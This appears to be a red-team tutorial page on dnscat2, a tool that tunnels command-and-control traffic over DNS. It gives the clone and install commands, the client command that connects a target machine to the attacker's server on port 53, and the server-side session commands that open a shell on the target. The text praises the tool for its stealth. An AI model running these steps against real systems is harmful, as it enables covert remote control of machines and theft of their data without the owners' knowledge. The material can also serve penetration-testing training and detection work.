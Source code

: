 # Red Teaming Squad

## dnscat2: Command and Control with DNS

DNScat is such praised tool because it can create a command and control tunnel over the DNS protocol which lets an attacker work in stealth mode. You can access any data along with uploading and downloading files and to get a shell. For this tool to work over 53 port, you don’t need to have authoritative access to DNS server, you can just simply establish your connection over port 53 and it will be faster and it will still be sensed as usual traffic. But it makes its presence well known in the packet log.

DNScat is made of two components i.e. a server and a client. To know the working of dnscat, it is important to understand both of these components.

The client is intended to be kept running on a target machine. It’s written in C and has the least amount of the prerequisites. When you run the client, you regularly indicate a domain name. All packets will be sent to the local DNS server, which is then directed to the legitimate DNS server for that domain (which you, apparently, have control of).

The server is intended to be kept running on a definitive DNS server. It’s developed in ruby and relies upon a few distinct gems. When you run it, much like the client, you indicate from which domain(s) it listens to over 53. When it gets traffic for one of those domains, it endeavours to set up a legitimate association. It gets other traffic it will automatically disregard it but, however, it can also advance it upstream.

### Installation

Run the following git command to download dnscat2 :

`git clone https://github.com/iagox86/dnscat2.git`

<kbd>![](dnscat2/1.png)</kbd>

Now install bundler as it is a major dependency for dnscat2. To install bundler go into the server of dnscat2 and type :

```
gem install bundler
bundle install
```
<kbd>![](dnscat2/2.png)</kbd>

Once everything is done, run the following command to start server:

`ruby dnscat2.rb`

<kbd>![](dnscat2/3.png)</kbd>

Similarly, download dnscat2 in the client machine too.  And go the dnscat2 directory and use make command to compile it with the server, as shown in the image below :

<kbd>![](dnscat2/4.png)</kbd>

<kbd>![](dnscat2/5.png)</kbd>

To establish a connection between client and server, use the following command :

`./dnscat --dns=server=192.168.0.106,port=53`

<kbd>![](dnscat2/6.png)</kbd>

Once the connection is established, you can see on the server-side that you will have a session as shown in the image below. You can use the command ‘sessions’ to check for a session that is created.

<kbd>![](dnscat2/8.png)</kbd>

To interact with the said session type the following command :

`session -i 1`

As you can access the session now, use the word ‘ping’ to ping the target and if it replies ‘Pong!’ then you ping is successful.

<kbd>![](dnscat2/9.png)</kbd>

Following will be the response on the client-side of the ping command.

<kbd>![](dnscat2/10.png)</kbd>

Further, with the help command you can see all the options. If you want to go to the shell then just type ‘shell’ and it will open a new window with the session to interact with the shell of the target system.

<kbd>![](dnscat2/11.png)</kbd>

To interact with the shell session that is opened in a new terminal, type following set of commands :

```
windows
session -i 4
```

<kbd>![](dnscat2/13.png)</kbd>

<kbd>![](dnscat2/12.png)</kbd>

